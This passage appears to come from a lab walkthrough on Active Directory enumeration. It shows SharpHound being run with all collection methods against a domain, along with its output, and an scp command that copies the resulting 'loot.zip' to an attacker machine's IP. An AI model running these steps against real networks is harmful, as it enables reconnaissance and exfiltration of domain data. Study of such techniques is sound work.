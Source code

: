 ___

## Enumeration w/ `Bloodhound`

`Bloodhound` is a graphical interface that allows you to visually map out the network. This tool along with `SharpHound` which similar to `PowerView` takes the user, groups, trusts etc. of the network and collects them into **.json** files to be used inside of `Bloodhound`.

### Installing `Bloodhound`

```bash
apt install bloodhound
```

### Collecting data into json w/ `SharpHound`

```powershell
PS C:\Users\Administrator> . .\Downloads\SharpHound.ps1 
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

----------------------------------------------- 
Initializing SharpHound at 7:34 AM on 6/28/2021                                                                      
-----------------------------------------------                                                                      
   
Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container 
   
[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL     
[+] Cache File not Found: 0 Objects in cache   
[+] Pre-populating Domain Controller SIDS 
Status: 0 objects finished (+0) -- Using 97 MB RAM 
Status: 66 objects finished (+66 8)/s -- Using 102 MB RAM 
Enumeration finished in 00:00:00.6725714                           
Compressing data to C:\Users\Administrator\20210628073430_loot.zip 
You can upload this file directly to the UI 

SharpHound Enumeration Completed at 7:34 AM on 6/28/2021! Happy Graphing! 
```

### Transferring the loot.zip folder to our Attacker Machine

```powershell
PS C:\Users\Administrator> scp .\20210628073430_loot.zip mimiron@10.11.35.147:/tmp 
mimiron@10.11.35.147's password: 
20210628073430_loot.zip     100% 9559   298.7KB/s   00:00
```

### Mapping the network w/ `Bloodhound`
